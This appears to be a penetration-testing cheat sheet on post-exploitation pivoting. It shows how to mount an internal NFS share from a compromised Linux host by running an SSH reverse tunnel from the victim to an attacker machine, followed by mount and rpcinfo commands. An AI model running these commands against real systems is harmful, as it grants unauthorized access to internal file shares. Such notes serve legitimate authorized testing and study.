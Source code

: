 # Linux Post Methods

## Misc Tricks

### NFS Proxy Mount

tags: nfs, proxy, proxychains, mount, reverse tunnle, ssh

Mount internal NFS share through pivot:

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.